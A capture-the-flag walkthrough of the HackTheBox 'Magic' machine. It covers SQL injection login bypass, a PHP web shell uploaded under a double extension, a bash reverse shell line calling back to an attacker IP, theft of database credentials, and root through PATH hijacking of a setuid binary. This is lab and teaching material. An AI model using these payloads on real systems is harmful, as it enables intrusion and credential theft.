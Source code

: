 # **HACKTHEBOX – MAGIC WRITEUP**

![](logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/sqlinjection.png)

We got logged in!

![](/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/aaa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/root.png)
